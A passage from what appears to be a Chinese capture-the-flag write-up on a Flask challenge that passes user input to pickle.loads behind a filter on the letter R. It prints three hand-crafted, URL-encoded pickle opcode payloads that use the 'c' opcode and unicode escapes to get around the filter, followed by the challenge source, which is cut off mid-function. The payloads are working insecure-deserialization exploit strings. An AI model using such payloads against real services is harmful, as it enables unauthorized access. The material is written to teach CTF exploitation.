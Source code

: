 ![](https://csdnimg.cn/release/blogv2/dist/pc/img/newCodeMoreBlack.png)

if 'R' in user.upper():payload里面不能有R字符，之前有想过不给用R那名字里面的Rich怎么办，后来发现不一定要直接传值。还记得c指令码吗？它专门用来获取一个全局变量。

看0x07：从零开始python反序列化攻击：pickle原理解析 & 不用reduce的RCE姿势 - 知乎 (zhihu.com)

payload：

```has-numbering
(V\u0052\u0069\u0063\u0068%0aI2000%0ai__main__%0aHi%0a.

(i__main__%0AHi%0A(dS'money'%0AI2000%0AsS'name'%0AcbuyInfo%0ANAME%0Asb.

(i__main__%0AHi%0A(dS'money'%0AcbuyInfo%0AMONEY%0AsS'name'%0AcbuyInfo%0ANAME%0Asb.

```

## CNSS娘の自助Flag商店



![image-20240807205727858](https://img-blog.csdnimg.cn/img_convert/d2755e029bdb83c6f513c8539daff268.png)

/code路由可以拿到源码

```prism
NAME = "Rich"
MONEY = 2000

def reset():
    global NAME, MONEY
    NAME = "Rich"
    MONEY = 2000

```

```prism
# encoding: utf-8
import pickle

import flask
import buyInfo

app = flask.Flask(__name__)
# flag is in /flag.txt


class Hi():
    def __init__(self, name, money):
        self.name = name
        self.money = money

    def __eq__(self, other):
        return self.name == other.name and self.money == other.money


@app.route('/')
def index():
    user = flask.request.args.get('user')
    if user is None:
        return 'View code in /code to buy flag.'
    if 'R' in user.upper():
        return '臭要饭的别挡我财路'

    user = pickle.loads(user.encode('utf-8'))
    if user == Hi(buyInfo.NAME, buyInfo.MONEY):
        buyInfo.reset()
```